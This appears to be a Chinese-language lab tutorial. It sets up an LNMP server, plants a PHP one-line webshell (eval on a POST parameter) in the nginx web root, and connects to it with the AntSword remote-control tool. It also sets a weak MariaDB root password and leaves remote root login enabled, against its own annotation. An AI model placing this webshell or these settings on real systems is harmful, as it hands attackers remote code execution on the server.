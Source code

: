 ### 1、使用AntSword远程控制服务器
### 2、LNMP环境搭建
#### 2.1 先移除之前安装的服务
```shell script
yum remove httpd -y
yum remove mysql -y
yum remove php -y
```

#### 2.2 安装开发包和库文件
```shell script
yum -y install ntp make openssl openssl-devel pcre pcre-devel libpng libpng-devel libjpeg-6b libjpeg-devel-6b freetype freetype-devel gd gd-devel zlib zlib-devel gcc gcc-c++ libXpm libXpm-devel ncurses ncurses-devel libmcrypt libmcrypt-devel libxml2 libxml2-devel imake autoconf automake screen sysstat compat-libstdc++-33 curl curl-devel
```

#### 2.3 安装nginx
```shell script
yum install nginx -y
systemctl start nginx.service
systemctl status nginx.service
systemctl enable nginx.service
```

#### 2.4 安装mariadb
```shell script
yum install mariadb-devel mariadb mariadb-server
systemctl start mariadb.service
systemctl status mariadb.service
```

#### 2.5 设置mariadb
```shell script
mysql_secure_installation  #初始化MySQL
Enter current password for root (enter for none):   <---输入现在的root密码，因为我们还没设置，直接回车
Set root password? [Y/n] Y                          <---是否设定root密码，当然设置了，输入Y回车
New password: 123                                   <---输入root密码，并回车，输入的过程中不会有任何显示
Re-enter new password:  123                         <---再次输入root密码，并回车，输入的过程中不会有任何显示
Remove anonymous users? [Y/n] Y                     <---是否删除匿名用户，删除，输入Y回车
Disallow root login remotely? [Y/n] n               <---是否删禁止root用户远程登录，当然禁止，输入Y回车
Remove test database and access to it? [Y/n] n      <---是否删除测试数据库test，看个人喜好
Reload privilege tables now? [Y/n] Y                <---刷新权限，输入Y回车
最后出现：Thanks for using MySQL!
MySql密码设置完成，重新启动 MySQL：
```

#### 2.6 安装php
```shell script
yum -y install php php-cli php-mysql php-gd php-imap php-ldap php-odbc php-pear php-xml php-xmlrpc php-mbstring php-mcrypt php-mssql php-snmp php-soap 
yum install  php-tidy php-common php-devel php-fpm php-mysql -y

systemctl start php-fpm.service
systemctl status php-fpm.service
systemctl enable php-fpm.service
```

#### 2.7 配置nginx
```shell script
vim /etc/nginx/conf.d/default.conf 

server {
    location / {
        root   /usr/share/nginx/html;
        index  index.php index.html index.htm;   #增加index.php
    }
      location ~ \.php$ {
        root           /usr/share/nginx/html;
        fastcgi_pass   127.0.0.1:9000;
        fastcgi_index  index.php;
        fastcgi_param  SCRIPT_FILENAME  /usr/share/nginx/html$fastcgi_script_name;
        include        fastcgi_params;
    }
}
```

#### 2.8 创建php一句话木马
```shell script
vim /usr/share/nginx/html/index.php

<?php eval($_POST['a']);
```

#### 2.9 重启nginx和php-fpm
```shell script
nginx -t
nginx -s reload
systemctl restart nginx
systemctl restart php-fpm
```
### 3、使用蚁剑连接服务器
![image](https://github.com/498946975/Security/blob/master/images/image-20220105094154247.png)
